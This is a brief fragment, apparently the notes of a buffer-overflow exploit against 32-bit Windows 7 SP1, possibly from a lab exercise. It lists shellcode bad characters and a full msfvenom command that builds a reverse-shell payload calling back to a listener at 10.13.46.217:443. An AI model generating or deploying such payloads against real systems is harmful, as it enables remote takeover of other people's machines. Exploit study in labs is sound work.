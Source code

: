 
Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x11\x40\x5f\xb8\xee

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x11\x40\x5f\xb8\xee" -v esp -f python
